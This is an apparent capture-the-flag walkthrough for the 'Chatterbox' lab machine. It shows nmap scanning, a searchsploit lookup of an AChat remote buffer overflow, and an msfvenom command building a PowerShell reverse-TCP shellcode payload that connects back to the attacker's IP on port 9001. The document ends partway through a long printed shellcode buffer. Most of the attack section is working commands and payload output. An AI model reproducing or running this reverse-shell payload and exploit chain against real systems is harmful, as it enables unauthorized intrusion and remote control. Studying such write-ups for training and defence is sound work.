

#### Chatterbox

- [Attacker Info](#attacker-info)
- [Nmap Scan](#nmap-scan)
- [Web Enumeration](#web-enumeration)
- [Exploit Achat](#exploit-achat)
- [Privilege Escalation](#privilege-escalation)
- [Leveraging weak permission on root.txt](#leveraging-weak-permission-on-root-txt)
- [Using Metasploit](#using-metasploit)
- [Using Empire](#using-empire)

###### Attacker Info

```sh
root@kali:~/chatterbox# ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:0c:29:b0:a9:19 brd ff:ff:ff:ff:ff:ff
    inet 192.168.150.5/24 brd 192.168.150.255 scope global dynamic noprefixroute eth0
       valid_lft 86248sec preferred_lft 86248sec
    inet6 fe80::20c:29ff:feb0:a919/64 scope link noprefixroute
       valid_lft forever preferred_lft forever
3: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 100
    link/none
    inet 10.10.14.16/23 brd 10.10.15.255 scope global tun0
       valid_lft forever preferred_lft forever
    inet6 dead:beef:2::100e/64 scope global
       valid_lft forever preferred_lft forever
    inet6 fe80::da50:e98d:fa:30d2/64 scope link stable-privacy
       valid_lft forever preferred_lft forever
root@kali:~/chatterbox#
```

###### Nmap Scan

```sh
root@kali:~/chatterbox# nmap -sC -sV -oA chatterbox.nmap 10.10.10.74
Starting Nmap 7.70 ( https://nmap.org ) at 2018-06-16 12:58 EDT
Nmap scan report for 10.10.10.74
Host is up (0.31s latency).
All 1000 scanned ports on 10.10.10.74 are filtered

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 316.66 seconds
root@kali:~/chatterbox#
```

```sh
root@kali:~/chatterbox# nmap -n -Pn 10.10.10.74 -p-
Starting Nmap 7.70 ( https://nmap.org ) at 2018-06-19 17:02 EDT
Nmap scan report for 10.10.10.74
Host is up (0.18s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE
9255/tcp open  mon
9256/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 5478.72 seconds
root@kali:~/chatterbox# 
```

```sh
root@kali:~/chatterbox# nmap -p 9255,9256 -sC -sV -oA chatterbox-specific.nmap 10.10.10.74
Starting Nmap 7.70 ( https://nmap.org ) at 2018-06-20 14:40 EDT
Nmap scan report for 10.10.10.74
Host is up (0.30s latency).

PORT     STATE SERVICE VERSION
9255/tcp open  http    AChat chat system httpd
|_http-server-header: AChat
|_http-title: Site doesn't have a title.
9256/tcp open  achat   AChat chat system

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.77 seconds
root@kali:~/chatterbox#
```

```sh
root@kali:~/chatterbox# nmap -p 9255,9256 --script vuln 10.10.10.74
Starting Nmap 7.70 ( https://nmap.org ) at 2018-06-20 14:43 EDT
Pre-scan script results:
| broadcast-avahi-dos:
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.10.74
Host is up (0.18s latency).

PORT     STATE SERVICE
9255/tcp open  mon
9256/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 35.15 seconds
root@kali:~/chatterbox#
```

###### Web Enumeration

```
http://10.10.10.74:9255/
```




###### Exploit Achat

```sh
root@kali:~/chatterbox# searchsploit achat
------------------------------------------------------------------------ ----------------------------------------
 Exploit Title                                                          |  Path
                                                                        | (/usr/share/exploitdb/)
------------------------------------------------------------------------ ----------------------------------------
Achat 0.150 beta7 - Remote Buffer Overflow                              | exploits/windows/remote/36025.py
Achat 0.150 beta7 - Remote Buffer Overflow (Metasploit)                 | exploits/windows/remote/36056.rb
MataChat - 'input.php' Multiple Cross-Site Scripting Vulnerabilities    | exploits/php/webapps/32958.txt
Parachat 5.5 - Directory Traversal                                      | exploits/php/webapps/24647.txt
------------------------------------------------------------------------ ----------------------------------------
Shellcodes: No Result
root@kali:~/chatterbox#
```

```sh
root@kali:~/chatterbox# searchsploit -m exploits/windows/remote/36025.py
  Exploit: Achat 0.150 beta7 - Remote Buffer Overflow
      URL: https://www.exploit-db.com/exploits/36025/
     Path: /usr/share/exploitdb/exploits/windows/remote/36025.py
File Type: Python script, ASCII text executable, with very long lines, with CRLF line terminators

Copied to: /root/chatterbox/36025.py


root@kali:~/chatterbox#
```

```sh
root@kali:~/chatterbox# nano 36025.py
```


```sh
root@kali:~# msfvenom --list all | grep powershell
    cmd/windows/powershell_bind_tcp                     Interacts with a powershell session on an established socket connection
    cmd/windows/powershell_reverse_tcp                  Interacts with a powershell session on an established socket connection
    cmd/windows/reverse_powershell                      Connect back and create a command shell via Powershell
    windows/powershell_bind_tcp                         Listen for a connection and spawn an interactive powershell session
    windows/powershell_reverse_tcp                      Listen for a connection and spawn an interactive powershell session
    windows/x64/powershell_bind_tcp                     Listen for a connection and spawn an interactive powershell session
    windows/x64/powershell_reverse_tcp                  Listen for a connection and spawn an interactive powershell session
    cmd/powershell_base64         excellent  Powershell Base64 Command Encoder
    powershell
root@kali:~#
```

**Payload Type**|**Staged or Not Staged**
:-----:|:-----:
\_|Not Staged
/|Staged

So `powershell_reverse_tcp` is not staged

```sh
root@kali:~/chatterbox# cat 36025.py | grep msfvenom
# msfvenom -a x86 --platform Windows -p windows/exec CMD=calc.exe -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
root@kali:~/chatterbox#
```

```sh
root@kali:~/chatterbox# msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=10.10.14.16 LPORT=9001 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/unicode_mixed
x86/unicode_mixed succeeded with size 3194 (iteration=0)
x86/unicode_mixed chosen with final size 3194
Payload size: 3194 bytes
Final size of python file: 15246 bytes
buf =  ""
buf += "\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49"
buf += "\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += "\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51\x41\x44\x41"
buf += "\x5a\x41\x42\x41\x52\x41\x4c\x41\x59\x41\x49\x41\x51"
buf += "\x41\x49\x41\x51\x41\x49\x41\x68\x41\x41\x41\x5a\x31"
buf += "\x41\x49\x41\x49\x41\x4a\x31\x31\x41\x49\x41\x49\x41"
buf += "\x42\x41\x42\x41\x42\x51\x49\x31\x41\x49\x51\x49\x41"
buf += "\x49\x51\x49\x31\x31\x31\x41\x49\x41\x4a\x51\x59\x41"
buf += "\x5a\x42\x41\x42\x41\x42\x41\x42\x41\x42\x6b\x4d\x41"
buf += "\x47\x42\x39\x75\x34\x4a\x42\x34\x30\x72\x4f\x30\x77"
buf += "\x6f\x75\x70\x72\x54\x33\x73\x38\x72\x45\x50\x6c\x62"
buf += "\x4c\x6c\x6e\x51\x55\x30\x78\x71\x55\x4d\x50\x4c\x6d"
buf += "\x62\x4e\x32\x4f\x52\x50\x6f\x30\x6e\x4d\x72\x57\x4d"
buf += "\x50\x32\x48\x4f\x79\x53\x34\x63\x34\x4f\x75\x62\x4e"
buf += "\x4b\x70\x6c\x6d\x50\x6e\x72\x4f\x32\x4e\x62\x49\x4f"
buf += "\x30\x4c\x6d\x43\x35\x30\x70\x6d\x50\x42\x42\x54\x39"
buf += "\x34\x30\x4f\x71\x72\x53\x71\x63\x4b\x70\x4f\x32\x6f"
buf += "\x36\x6b\x78\x51\x4b\x34\x33\x52\x43\x63\x42\x72\x49"
buf += "\x52\x50\x50\x74\x52\x42\x70\x6c\x72\x4f\x30\x63\x62"
buf += "\x4b\x4f\x6d\x4c\x7a\x6e\x5a\x50\x63\x70\x72\x62\x45"
buf += "\x6f\x71\x44\x34\x6f\x75\x6e\x48\x6e\x48\x70\x4e\x31"
buf += "\x55\x64\x37\x6e\x4d\x50\x4f\x52\x42\x4f\x7a\x32\x45"
buf += "\x52\x43\x71\x64\x6b\x70\x61\x39\x30\x4f\x6c\x6e\x32"
buf += "\x33\x52\x54\x44\x32\x71\x55\x4f\x71\x72\x4d\x62\x32"
buf += "\x51\x55\x30\x61\x30\x64\x43\x35\x32\x52\x4b\x78\x6e"
buf += "\x6e\x62\x45\x53\x47\x6c\x6d\x6e\x6f\x50\x62\x61\x5a"
buf += "\x4f\x75\x62\x43\x52\x54\x6d\x50\x31\x39\x4e\x6f\x4c"
buf += "\x6e\x61\x33\x42\x4f\x52\x4d\x54\x30\x70\x72\x53\x35"
buf += "\x54\x33\x73\x43\x50\x69\x50\x6f\x50\x6e\x6c\x6e\x4f"
buf += "\x57\x62\x5a\x6f\x79\x74\x30\x42\x33\x70\x74\x63\x42"
buf += "\x32\x45\x4f\x71\x30\x6d\x4b\x78\x4d\x58\x50\x4e\x53"
buf += "\x35\x50\x77\x4c\x6d\x70\x4f\x50\x62\x51\x5a\x71\x55"
buf += "\x50\x63\x64\x34\x4d\x50\x6d\x79\x6e\x6f\x6c\x6e\x30"
buf += "\x4d\x6f\x75\x72\x4d\x50\x6f\x43\x42\x72\x59\x32\x33"
buf += "\x62\x54\x30\x72\x42\x45\x53\x31\x72\x4d\x4e\x48\x6e"
buf += "\x4c\x51\x4b\x31\x33\x70\x6f\x52\x4e\x32\x56\x70\x65"
buf += "\x32\x52\x74\x34\x71\x4d\x6d\x6a\x4c\x7a\x4f\x56\x31"
buf += "\x62\x52\x4f\x30\x6d\x6e\x62\x50\x61\x33\x43\x30\x65"
buf += "\x6c\x76\x4c\x74\x52\x33\x33\x44\x64\x32\x42\x49\x72"
buf += "\x4e\x71\x57\x6c\x68\x6b\x77\x31\x38\x4c\x74\x53\x43"
buf += "\x50\x49\x71\x31\x61\x36\x6e\x52\x74\x38\x30\x4b\x72"
buf += "\x4c\x61\x63\x4d\x73\x4f\x51\x4c\x75\x6d\x61\x31\x47"
buf += "\x32\x42\x72\x37\x6c\x6f\x63\x32\x6e\x6e\x33\x38\x71"
buf += "\x34\x4e\x4b\x6f\x47\x52\x4c\x4e\x59\x71\x68\x6e\x58"
buf += "\x50\x4c\x62\x32\x61\x51\x32\x31\x73\x39\x74\x38\x61"
buf += "\x33\x30\x44\x34\x34\x52\x39\x70\x42\x6e\x63\x70\x35"
buf += "\x51\x32\x50\x69\x54\x31\x6f\x6a\x50\x4a\x33\x45\x71"
buf += "\x31\x73\x32\x6e\x6c\x72\x37\x31\x61\x30\x4c\x63\x4a"
buf += "\x72\x4c\x6f\x77\x4f\x42\x51\x35\x51\x57\x50\x4e\x51"
buf += "\x38\x51\x47\x6e\x6f\x72\x54\x61\x53\x43\x39\x70\x6b"
buf += "\x52\x33\x70\x31\x6d\x7a\x4c\x6b\x50\x51\x73\x35\x6e"
buf += "\x6c\x6e\x4f\x50\x58\x52\x4c\x30\x4b\x42\x49\x70\x4c"
buf += "\x61\x34\x30\x6c\x70\x4f\x6e\x50\x50\x47\x30\x57\x4d"
buf += "\x73\x4d\x71\x31\x46\x62\x56\x50\x6b\x6c\x78\x72\x42"
buf += "\x52\x4e\x30\x6e\x62\x4e\x32\x4e\x51\x65\x71\x58\x71"
buf += "\x56\x6f\x44\x30\x4b\x50\x68\x6f\x67\x4e\x6b\x30\x4f"
buf += "\x53\x33\x50\x46\x6f\x62\x63\x48\x70\x43\x31\x65\x4d"
buf += "\x7a\x6e\x77\x4f\x6a\x6e\x51\x42\x53\x4f\x78\x73\x38"
buf += "\x70\x75\x30\x6f\x62\x37\x32\x30\x4d\x65\x42\x4d\x74"
buf += "\x34\x72\x35\x72\x33\x31\x39\x50\x34\x52\x33\x6f\x43"
buf += "\x73\x43\x30\x45\x32\x4c\x6f\x68\x62\x33\x30\x48\x4e"
buf += "\x58\x51\x43\x42\x37\x4e\x77\x4c\x76\x6d\x67\x72\x38"
buf += "\x6f\x63\x70\x4d\x4d\x7a\x31\x54\x70\x4f\x61\x4a\x4c"
buf += "\x74\x4e\x70\x51\x31\x6d\x78\x4f\x46\x44\x36\x6e\x61"
buf += "\x61\x47\x54\x30\x53\x49\x53\x4a\x6e\x70\x32\x4b\x4e"
buf += "\x67\x32\x56\x32\x4f\x42\x30\x4f\x58\x61\x52\x61\x31"
buf += "\x30\x50\x50\x4e\x6e\x56\x70\x61\x33\x47\x71\x44\x62"
buf += "\x4c\x4e\x58\x32\x58\x42\x4e\x61\x48\x6c\x74\x30\x5a"
buf += "\x61\x56\x32\x4f\x52\x56\x6e\x6d\x72\x47\x50\x33\x70"
buf += "\x68\x61\x51\x30\x4c\x42\x56\x6e\x65\x30\x7a\x70\x33"
buf += "\x51\x43\x6f\x52\x31\x4a\x32\x4c\x51\x35\x51\x44\x30"
buf += "\x59\x51\x68\x6c\x6b\x72\x38\x6e\x59\x32\x52\x72\x35"
buf += "\x43\x48\x6e\x4b\x52\x36\x31\x66\x51\x58\x50\x4a\x50"
buf += "\x63\x6d\x65\x70\x6f\x50\x6b\x73\x35\x51\x64\x30\x59"
buf += "\x32\x39\x72\x4d\x42\x50\x6f\x42\x70\x4d\x62\x50\x70"
buf += "\x6f\x30\x72\x6e\x61\x4c\x6b\x4e\x66\x44\x30\x6e\x77"
buf += "\x43\x35\x4f\x54\x42\x45\x70\x61\x63\x39\x32\x4a\x51"
buf += "\x36\x61\x4a\x50\x6b\x51\x65\x52\x45\x6f\x67\x31\x4a"
buf += "\x4f\x7a\x50\x31\x6e\x51\x72\x4b\x50\x70\x74\x34\x30"
buf += "\x32\x6f\x49\x70\x6b\x6d\x61\x70\x46\x30\x4a\x43\x34"
buf += "\x4d\x61\x63\x31\x6f\x5a\x4d\x61\x51\x38\x4e\x6b\x52"
buf += "\x30\x42\x45\x4e\x68\x42\x36\x50\x4e\x4e\x6b\x4d\x76"
buf += "\x62\x38\x4e\x4f\x4c\x70\x4f\x75\x70\x4a\x6c\x71\x44"
buf += "\x30\x72\x4d\x4e\x4f\x70\x48\x6c\x77\x32\x49\x43\x48"
buf += "\x32\x37\x50\x4b\x52\x58\x52\x4f\x6e\x64\x30\x7a\x63"
buf += "\x44\x70\x48\x6d\x66\x6d\x64\x52\x4d\x70\x4b\x50\x6d"
buf += "\x50\x65\x6d\x73\x70\x50\x4c\x71\x43\x45\x6c\x78\x6e"
buf += "\x66\x31\x37\x71\x65\x43\x35\x70\x43\x70\x35\x34\x31"
buf += "\x70\x57\x30\x71\x30\x34\x70\x48\x50\x44\x32\x4c\x70"
buf += "\x49\x70\x4b\x70\x68\x32\x35\x31\x65\x4e\x61\x6e\x65"
buf += "\x61\x47\x4f\x59\x52\x49\x6e\x50\x54\x39\x30\x4e\x50"
buf += "\x45\x4e\x73\x6c\x6f\x6e\x6e\x70\x30\x52\x30\x52\x4f"
buf += "\x4e\x64\x6e\x6c\x30\x4a\x6e\x7a\x43\x45\x31\x34\x30"
buf += "\x58\x62\x42\x70\x69\x30\x44\x70\x45\x71\x52\x6f\x49"
buf += "\x70\x43\x61\x54\x4f\x6a\x50\x6a\x31\x6a\x62\x54\x6f"
buf += "\x52\x61\x65\x42\x36\x70\x6d\x72\x44\x70\x61\x4d\x64"
buf += "\x6c\x78\x50\x6d\x6e\x52\x43\x36\x50\x4b\x31\x69\x30"
buf += "\x47\x6d\x68\x62\x4b\x52\x30\x30\x7a\x61\x53\x30\x75"
buf += "\x32\x54\x6c\x6b\x4f\x72\x6f\x43\x51\x57\x32\x4c\x62"
buf += "\x4a\x72\x36\x6d\x75\x34\x33\x6f\x55\x4f\x75\x6e\x75"
buf += "\x70\x43\x52\x53\x73\x49\x52\x39\x43\x43\x32\x53\x71"
buf += "\x52\x6e\x7a\x30\x7a\x51\x38\x50\x35\x30\x4c\x4e\x79"
buf += "\x70\x6f\x71\x37\x44\x38\x43\x47\x63\x35\x6d\x7a\x50"
buf += "\x30\x42\x4c\x4f\x62\x30\x71\x30\x36\x4e\x59\x50\x64"
buf += "\x6f\x45\x50\x4c\x50\x6e\x63\x34\x63\x34\x71\x59\x34"
buf += "\x33\x6c\x75\x63\x32\x33\x34\x51\x58\x31\x55\x4e\x6d"
buf += "\x70\x34\x61\x46\x4d\x79\x51\x52\x74\x37\x30\x43\x70"
buf += "\x6f\x73\x34\x72\x46\x52\x4b\x62\x36\x50\x6c\x4d\x69"
buf += "\x61\x68\x32\x50\x31\x54\x6f\x79\x50\x53\x44\x35\x32"
buf += "\x35\x6e\x63\x32\x4f\x70\x38\x51\x4a\x70\x37\x4d\x66"
buf += "\x4f\x56\x6f\x72\x30\x4b\x6e\x78\x6c\x6b\x30\x4a\x52"
buf += "\x45\x6f\x64\x63\x48\x30\x30\x51\x5a\x73\x42\x44\x31"
buf += "\x51\x34\x70\x69\x70\x4e\x31\x5a\x62\x30\x30\x4c\x6d"
buf += "\x62\x70\x54\x34\x37\x4f\x71\x4f\x47\x51\x54\x34\x36"
buf += "\x30\x6f\x4f\x43\x30\x43\x72\x55\x4e\x6f\x6c\x75\x4f"
buf += "\x66\x4f\x48\x32\x33\x62\x4b\x64\x35\x50\x6b\x51\x33"
buf += "\x6c\x78\x31\x65\x50\x31\x4f\x77\x73\x39\x63\x31\x70"
buf += "\x6d\x62\x5a\x4e\x6a\x6e\x6a\x54\x39\x43\x4a\x6f\x68"
buf += "\x70\x42\x52\x53\x30\x32\x4e\x66\x50\x58\x50\x5a\x71"
buf += "\x61\x43\x33\x52\x4a\x71\x4a\x42\x33\x54\x35\x42\x4d"
buf += "\x4e\x56\x4f\x6a\x6e\x6c\x6e\x73\x30\x6f\x50\x4b\x70"
buf += "\x5a\x70\x55\x42\x4e\x50\x4e\x43\x34\x72\x47\x54\x32"
buf += "\x4d\x67\x4e\x6a\x4d\x71\x70\x56\x52\x50\x70\x75\x50"
buf += "\x4b\x6d\x63\x6e\x6a\x70\x4b\x70\x6c\x4e\x6e\x62\x46"
buf += "\x61\x55\x70\x65\x6e\x4f\x6c\x77\x4e\x58\x6d\x61\x70"
buf += "\x4d\x31\x43\x32\x37\x71\x38\x32\x46\x70\x66\x4c\x6f"
buf += "\x62\x32\x4f\x57\x70\x42\x62\x4e\x70\x30\x4e\x68\x70"
buf += "\x49\x31\x46\x31\x45\x62\x57\x42\x30\x71\x5a\x6f\x7a"
buf += "\x33\x4a\x6f\x56\x70\x52\x62\x44\x50\x43\x51\x49\x6e"
buf += "\x54\x62\x58\x4e\x73\x71\x4a\x6d\x67\x50\x4f\x70\x4d"
buf += "\x72\x35\x71\x49\x6d\x63\x6c\x6f\x50\x30\x51\x34\x54"
buf += "\x38\x30\x4c\x72\x51\x63\x31\x30\x32\x30\x37\x50\x6d"
buf += "\x4e\x6f\x70\x62\x4d\x65\x42\x4c\x70\x4c\x6e\x6b\x6e"
buf += "\x68\x30\x53\x72\x32\x31\x33\x4c\x78\x32\x31\x51\x39"
buf += "\x72\x44\x30\x63\x71\x36\x4d\x78\x34\x30\x43\x45\x52"
buf += "\x49\x4d\x69\x51\x49\x53\x35\x31\x65\x42\x4c\x61\x31"
buf += "\x70\x76\x6f\x46\x42\x32\x50\x4b\x50\x30\x42\x4b\x54"
buf += "\x34\x51\x53\x4f\x59\x6c\x70\x51\x57\x71\x44\x30\x55"
buf += "\x70\x56\x30\x6d\x74\x37\x4e\x58\x6f\x43\x32\x37\x72"
buf += "\x4f\x6f\x73\x61\x44\x32\x59\x73\x31\x32\x45\x4c\x6f"
buf += "\x50\x62\x4e\x7a\x62\x4c\x6e\x66\x61\x68\x71\x36\x33"
buf += "\x49\x61\x37\x42\x50\x70\x6e\x50\x6e\x70\x36\x62\x45"
buf += "\x51\x56\x6f\x58\x51\x51\x30\x4f\x30\x64\x4d\x75\x4e"
buf += "\x72\x6e\x7a\x4c\x77\x32\x37\x4f\x42\x6e\x4f\x6f\x45"
buf += "\x52\x39\x30\x34\x70\x30\x4e\x79\x4f\x64\x4e\x55\x4f"
buf += "\x55\x30\x79\x30\x6b\x32\x54\x31\x61\x73\x32\x72\x30"
buf += "\x53\x4a\x53\x39\x6c\x76\x32\x33\x6c\x6b\x42\x30\x70"
buf += "\x6f\x6f\x46\x62\x53\x50\x45\x4e\x6a\x6c\x6f\x32\x54"
buf += "\x31\x34\x4e\x7a\x4c\x6b\x6d\x69\x6c\x79\x72\x39\x4f"
buf += "\x65\x50\x70\x70\x31\x50\x69\x54\x32\x71\x51\x70\x6a"
buf += "\x6d\x79\x72\x4b\x63\x33\x70\x38\x44\x38\x32\x5a\x42"
buf += "\x4b\x71\x31\x72\x38\x52\x4e\x51\x68\x4f\x78\x42\x51"
buf += "\x50\x4d\x31\x34\x30\x49\x42\x35\x44\x39\x50\x42\x32"
buf += "\x44\x50\x71\x31\x36\x30\x45\x4e\x4f\x70\x43\x6e\x71"
buf += "\x72\x52\x6f\x48\x4c\x77\x72\x53\x6e\x67\x6e\x57\x33"
buf += "\x36\x51\x64\x53\x36\x70\x57\x70\x4c\x51\x47\x4e\x74"
buf += "\x6d\x75\x51\x52\x4c\x72\x31\x37\x6c\x70\x44\x37\x42"
buf += "\x53\x72\x4c\x72\x4f\x72\x36\x64\x35\x4e\x6e\x30\x75"
buf += "\x4e\x59\x4c\x74\x50\x4c\x4f\x5a\x51\x4a\x30\x62\x62"
buf += "\x4d\x42\x44\x70\x33\x50\x50\x4e\x6e\x51\x56\x50\x68"
buf += "\x61\x68\x6e\x61\x50\x4b\x61\x56\x4e\x72\x30\x34\x30"
buf += "\x44\x6f\x43\x4c\x78\x62\x4c\x51\x44\x4e\x65\x44\x30"
buf += "\x50\x6c\x50\x4a\x52\x48\x70\x70\x51\x59\x70\x49\x52"
buf += "\x36\x53\x33\x6f\x53\x70\x6c\x50\x6e\x30\x4b\x62\x32"
buf += "\x4e\x4b\x51\x34\x6f\x53\x31\x55\x52\x52\x6f\x63\x32"
buf += "\x37\x6e\x63\x43\x39\x6f\x61\x63\x31\x51\x32\x50\x79"
buf += "\x44\x34\x50\x4d\x50\x79\x4e\x72\x50\x32\x4c\x6f\x70"
buf += "\x34\x70\x36\x70\x37\x4e\x4b\x62\x4e\x4f\x53\x4f\x72"
buf += "\x70\x45\x6f\x7a\x70\x69\x52\x56\x4e\x50\x70\x6d\x4e"
buf += "\x4b\x72\x4a\x4c\x76\x50\x55\x30\x62\x4c\x79\x6e\x55"
buf += "\x51\x39\x61\x44\x31\x56\x61\x39\x6d\x67\x6c\x6f\x50"
buf += "\x57\x4c\x78\x42\x38\x6e\x74\x72\x32\x6d\x61\x4c\x79"
buf += "\x30\x37\x52\x42\x6e\x6c\x6f\x45\x52\x51\x62\x48\x30"
buf += "\x71\x30\x33\x4f\x79\x30\x62\x70\x56\x4e\x4b\x30\x47"
buf += "\x42\x31\x31\x33\x50\x4e\x44\x37\x43\x32\x6e\x73\x73"
buf += "\x31\x50\x75\x30\x4d\x70\x36\x50\x6e\x6c\x6b\x64\x38"
buf += "\x6f\x45\x34\x36\x74\x30\x4c\x71\x31\x62\x50\x66\x31"
buf += "\x55\x62\x51\x4f\x64\x32\x4b\x6e\x66\x4f\x75\x32\x35"
buf += "\x30\x7a\x6f\x61\x4f\x43\x72\x4e\x6f\x53\x52\x48\x4f"
buf += "\x61\x64\x39\x32\x56\x44\x30\x4e\x58\x42\x53\x42\x4a"
buf += "\x4f\x66\x4f\x66\x4f\x54\x50\x32\x53\x4a\x6e\x57\x6c"
buf += "\x6b\x70\x77\x6f\x65\x31\x31\x30\x4f\x31\x43\x51\x32"
buf += "\x30\x31\x51\x64\x50\x4e\x70\x62\x54\x34\x34\x31\x44"
buf += "\x30\x30\x4f\x4e\x64\x34\x30\x72\x4d\x51\x61\x4c\x6f"
buf += "\x6d\x75\x6d\x71\x4f\x44\x70\x5a\x30\x58\x70\x6d\x4e"
buf += "\x56\x72\x38\x42\x32\x32\x36\x63\x38\x42\x4d\x50\x39"
buf += "\x4c\x79\x70\x79\x72\x49\x4d\x67\x61\x67\x4e\x50\x6f"
buf += "\x45\x6c\x78\x52\x4b\x33\x48\x50\x4b\x70\x39\x42\x39"
buf += "\x6e\x71\x71\x39\x4f\x49\x32\x4b\x4e\x4b\x31\x55\x71"
buf += "\x43\x44\x38\x71\x49\x6e\x51\x43\x37\x31\x4a\x51\x43"
buf += "\x70\x59\x6f\x54\x30\x4d\x30\x71\x6e\x72\x70\x36\x52"
buf += "\x42\x50\x6c\x6e\x7a\x30\x37\x6f\x58\x4f\x43\x61\x62"
buf += "\x6c\x6f\x4e\x6f\x4e\x53\x61\x48\x62\x52\x31\x55\x6e"
buf += "\x7a\x70\x61\x61\x5a\x50\x37\x6f\x43\x74\x34\x6e\x7a"
buf += "\x30\x32\x72\x31\x4e\x70\x62\x36\x50\x38\x51\x51\x50"
buf += "\x39\x51\x39\x31\x45\x50\x37\x4c\x6b\x30\x71\x6e\x4b"
buf += "\x6d\x74\x6d\x65\x61\x35\x52\x46\x61\x56\x4d\x71\x6e"
buf += "\x6f\x31\x6a\x70\x67\x4e\x75\x32\x31\x4f\x73\x50\x6f"
buf += "\x51\x44\x32\x4f\x70\x4b\x30\x4c\x70\x64\x71\x48\x42"
buf += "\x4c\x62\x4a\x70\x36\x50\x6d\x6d\x79\x61\x68\x30\x50"
buf += "\x70\x4b\x70\x61\x4d\x65\x70\x65\x70\x55\x32\x4d\x50"
buf += "\x77\x4c\x77\x50\x57\x53\x38\x4f\x5a\x4f\x61\x71\x58"
buf += "\x31\x48\x34\x32\x62\x4d\x72\x31\x50\x47\x62\x58\x50"
buf += "\x54\x51\x44\x6f\x44\x30\x39\x71\x42\x4e\x73\x43\x31"
buf += "\x73\x31\x6f\x57\x4c\x75\x6e\x69\x42\x36\x6e\x78\x6e"
buf += "\x6b\x70\x58\x50\x49\x50\x63\x6e\x64\x4e\x78\x72\x48"
